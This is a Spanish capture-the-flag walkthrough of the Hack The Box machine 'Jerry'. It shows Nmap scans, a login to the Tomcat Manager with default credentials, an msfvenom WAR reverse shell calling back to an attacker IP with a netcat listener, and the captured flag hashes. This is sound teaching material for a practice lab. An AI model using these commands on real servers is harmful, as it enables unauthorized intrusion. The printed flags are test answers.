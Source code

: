 ```yaml
---
layout: single
title: <span class="htb">Jerry - Hack The Box</span>
excerpt: "Hoy veremos la máquina easy Jerry, la cual tiene montado un servidor web con TomCat, conseguiremos acceder al Manager App mediante la obtención de credenciales
haciendo reconocimiento web, desplegaremos una aplicación .War que contendrá una reverse shell, dándonos acceso como administrador del sistema."
date: 2022-07-17
classes: wide
header:
  teaser: /assets/images/Jerry/Jerry.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.png
categories:
  - Hack The Box
  - Easy
tags: 
  - Nmap 
  - TomCat
  - War
  - Msfvenom
  - Reverse Shell
---
```


## DESCRIPCION

Hoy veremos la máquina easy Jerry, la cual tiene montado un servidor web con TomCat, conseguiremos acceder al Manager App mediante la obtención de credenciales
haciendo reconocimiento web, desplegaremos una aplicación .War que contendrá una reverse shell, dándonos acceso como administrador del sistema. 

<p style="text-align:center;"><img src="../assets/images/Jerry/Descripcion_Jerry.png"></p>

## INDICE

- [Reconocimiento con Nmap](#reconocimiento-de-puertos)
- [Reconocimiento Web](#reconocimiento-web)
- [Manager App Tomcat](#acceso-al-manager-app)
- [Vías Potenciales](#vias)
	- [Creación de la reverse shell .WAR con Msfvenom &#9989;](#creacion-de-la-revshell-war-con-msfvenom)
- [Flags](#flags)
- [Conocimientos obtenidos](#conocimientos-obtenidos)
- [Autores y Referencias](#autores-y-referencias)

## RECONOCIMIENTO DE PUERTOS

Lo primero será ver que puertos están abiertos en la máquina objetivo, para ello utilizaremos la herramienta `Nmap`

```zsh
❯ cat Puertos
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: Puertos
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ nmap --open -p- -T5 -Pn -oG Puertos 10.10.10.95
   2   │ Host: 10.10.10.95 ()    Status: Up
   3   │ Host: 10.10.10.95 ()    Ports: 8080/open/tcp//http-proxy/// Ignored State: filtered (65534)
   4   │ # Nmap done at Tue Jul 12 01:26:25 2022 -- 1 IP address (1 host up) scanned in 68.44 seconds
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ Reconocimiento Puertos

{*} Extrayendo puertos...

	La direccion ip es: 10.10.10.95
	Los puertos abiertos son: 8080

	Los puertos han sido copiados al portapapeles

```
<br>
Sabiendo que solo tenemos el puerto `8080` abierto procederemos a lanzar unos scripts predeterminados con Nmap.

```zsh
   1   │ nmap -sCV -p8080 -Pn -oN Objetivos 10.10.10.95
   2   │ Nmap scan report for 10.10.10.95
   3   │ Host is up (0.034s latency).
   4   │ 
   5   │ PORT     STATE SERVICE VERSION
   6   │ 8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
   7   │ |_http-title: Apache Tomcat/7.0.88
   8   │ |_http-favicon: Apache Tomcat
   9   │ |_http-server-header: Apache-Coyote/1.1

```
El servidor web está montado con Tomcat, por lo que vamos a comprobar la página web y que posibles accesos tenemos.

## RECONOCIMIENTO WEB

Al visitar la página web veremos la plantilla por defecto que utiliza TomCat.

<p style="text-align:center;"><img src="../assets/images/Jerry/tomcat.png"></p> 

Si pudiésemos acceder al Manager App podríamos intentar subir un archivo .War maliciosos el cual nos dará una reverse shell y nos comunicaremos con la máquina víctima.

Intentamos acceder, pero nos pide credenciales:

<p style="text-align:center;"><img src="../assets/images/Jerry/credenciales_manager.png"></p>

Probando unas credenciales erróneas nos salta este error por parte de TomCat.

<p style="text-align:center;"><img src="../assets/images/Jerry/401.png"></p> 

Si nos fijamos bien, nos está dando como credenciales de ejemplo esta línea.

```html
<role rolename="manager-gui"/>
<user username="tomcat" password="s3cret" roles="manager-gui"/>

```
Espero que el Administrador no haya dejado por defecto estas credenciales, sería un error de novato ¿No creéis?

## ACCESO AL MANAGER APP

Probamos con `tomcat:s3cret` y bum, acceso concedido.

<p style="text-align:center;"><img src="../assets/images/Jerry/Manager_App.png"></p>

Si miramos en la parte de abajo encontramos lo siguiente.

<p style="text-align:center;"><img src="../assets/images/Jerry/war_menu.png"></p>

Parece que sí podemos subir un archivo .WAR permitiéndonos desplegar una aplicación maliciosa. Para ello podemos usar `msfvenom`, tenemos la cheatsheet del ataque mediante .War file en 
<a href="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#msfvenom-reverse-shell" target="_blank">HackTrinks</a>.

<br>

<h1 style="text-align: center;" id="vias">Vías Potenciales</h1>

## CREACION DE LA REVSHELL WAR CON MSFVENOM

Introducimos los parámetros correspondientes de la reverse shell:

```zsh
❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.3 LPORT=1234 -f war -o revshell.war
Payload size: 1088 bytes
Final size of war file: 1088 bytes
Saved as: revshell.war
```
<br>
Antes de subir y ejecutar la aplicación maliciosa nos ponemos por escucha con `netcat`.

```zsh
❯ rlwrap nc -lnvp 1234 # rlwrap nos permite obtener una tty interactiva con windows
listening on [any] 1234 ...
```
## SUBIR REVERSE SHELL

En este momento podemos subir el archivo .War desde el menú mostrado anteriormente.

<p style="text-align:center;"><img src="../assets/images/Jerry/deploy.png"></p>

Una vez subida la aplicación se nos mostrará en el menú del manger.

<p style="text-align:center;"><img src="../assets/images/Jerry/revshell.png"></p>

Si nos dirigimos al directorio `http://10.10.10.95:8080/revshell/` la reverse shell se nos ejecutará y la recibiremos en el listener que hemos establecido previamente.

```
❯ rlwrap nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.95] 49193
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

whoami
whoami
nt authority\system

C:\apache-tomcat-7.0.88>

```
¡Perfecto! Somos admins por defecto, por lo que solo tenemos que buscar las flags.

## FLAGS

<h3>USER.TXT Y ADMIN.TXT</h3>

```console
dir

Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)   2,419,621,888 bytes free

type "2 for the price of 1.txt"

user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e

```
Pues teníamos las dos flags en el mismo archivo, podemos dar por pwneada la máquina Jerry.

## CONOCIMIENTOS OBTENIDOS

De la máquina <em>Jerry</em> podemos extraer los siguientes conocimientos:

- Reconocimiento de puertos abiertos con Nmap.
- Reconocimiento web en busca de credenciales.
- Creación de una reverse shell en formato .War con Msfvenom.
- Desplegar un archivo .War desde el Manager App de TomCat.

## AUTORES y REFERENCIAS

Autor del write up: Luis Miranda Sierra. <a href="https://app.hackthebox.com/profile/1104062" target="_blank">HTB</a>, si queréis contactarme por cualquier motivo lo podéis hacer desde <a href="https://twitter.com/Void4m0n" target="_blank">Twitter</a>.


Autor de la máquina:  <em>mrh4sh</em>, muchas gracias por la creación de Jerry aportando a la comunidad. <a href="https://app.hackthebox.com/users/2570" target="_blank">HTB</a>.




